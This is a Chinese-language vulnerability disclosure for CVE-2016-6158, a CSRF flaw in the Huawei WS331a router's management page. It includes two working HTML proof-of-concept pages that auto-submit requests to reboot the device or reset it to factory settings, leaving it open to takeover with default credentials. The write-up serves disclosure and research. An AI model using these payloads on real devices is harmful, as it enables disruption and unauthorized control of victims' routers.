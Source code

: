 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|华为WS331a产品管理页面存在CSRF漏洞|2016-09-07|zixian（me@zixian.org）|[http://www.huawei.com/](http://www.huawei.com/) | [http://www.huawei.com/](http://www.huawei.com/) |WS331a-10 V100R001C02B017SP01及之前版本 | [CVE-2016-6158](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6158)|  

#### 漏洞概述  

> 华为WS331a 是一款便携无线路由器。
WS331a产品的管理页面中存在一个CSRF漏洞，未经过认证的攻击者可以利用此漏洞发起CSRF攻击。成功利用此漏洞，攻击者可以向受影响设备提交特定请求进而导致设备恢复出厂设置或者重启。 (漏洞编号:HWPSIRT-2016-07078)
此漏洞的CVE编号为：CVE-2016-6158。  


### POC实现代码如下：  

> 当管理员登陆后，打开如下poc页面，WS331a设备将重启。
``` html
<form action="http://192.168.3.1/api/service/reboot.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script>
```
> 当管理员登陆后，打开如下poc页面，WS331a设备将恢复初始化配置。设备自动重启后不需要密码即可连接热点，并使用amdin/admin对设备进行管理控制。   

```html
<form action="http://192.168.3.1/api/service/restoredefcfg.cgi" method="post">
</form>
<script> document.forms[0].submit(); </script>
```
